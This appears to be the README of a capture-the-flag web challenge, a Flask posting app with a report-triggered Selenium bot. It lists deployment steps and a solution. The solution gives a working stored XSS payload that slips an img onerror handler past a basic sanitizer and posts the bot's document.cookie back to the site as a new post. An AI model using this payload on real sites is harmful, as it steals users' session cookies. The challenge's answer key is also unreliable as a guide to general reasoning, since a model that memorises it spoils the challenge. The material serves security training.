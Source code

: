 functionality:
- add a post (no account)
- render posts on index
- render post after clicking of a post
- report button
- bot which goes to rendered post page (triggers xss, cookie)

deploy:
- dependencies: python, flask, selenium, requests
- flask init-db
- flask run (main app)
- flask --app bot run -p 5001

solution:
- new post
- post title: whatever
- post body (most tags are removed by a basic sanitizer):
```html
<img src=x onerror='fetch("/create", { method: "POST", body: new URLSearchParams({ title: "flag", body: "flag: " + document.cookie }) });'>
```
- report the post
- the bot with go to the URL triggering XSS, the headless browser will create a new post with the cookie (contains the flag)

there is a exploit.py file which does this
